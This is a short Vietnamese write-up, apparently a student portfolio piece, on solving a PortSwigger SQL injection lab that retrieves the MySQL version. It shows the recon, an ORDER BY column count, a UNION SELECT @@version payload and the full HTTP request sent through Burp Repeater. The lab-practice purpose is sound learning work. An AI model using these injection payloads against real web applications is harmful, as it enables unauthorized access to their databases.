




# Write-up: SQL injection attack, querying the database type and version on MySQL and Microsoft

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin phiên bản DB trong một lab của PortSwigger

### Mục tiêu
Trích xuất thông tin phiên bản DB.

### Công cụ:
- BurpSuite Community
- Firefox Browser

### Các bước thực hiên
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL:
  - **Kết quả**: lỗi SQL xuất hiện, xác nhận lỗ hổng
    

- Xác định số cột hiển thị bảng bằng:
  - Payload:
    ```
    'ORDER BY 3-- -
    ```
    
  - **Kết quả**: Có hai cột trả về (3-1=2) và DB là Mysql do sau dấu comment là khoảng trắng (`-- comment`) 

2. **Tạo Payload**
- Tạo payload kiểu tấn công UNION để lấy thông tin phiên bản của MySQL
    ```
    'UNION SELECT 'a', @@version FROM information_schema.tables-- -
    ```

3. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+'a',+%40%40version+FROM+information_schema.tables--+- HTTP/2
    ```
    

- **Kết quả**: lấy được thông tin phiên bản của DB và hoàn thành lab.
  


### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột và lấy thông tin phiên bản.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.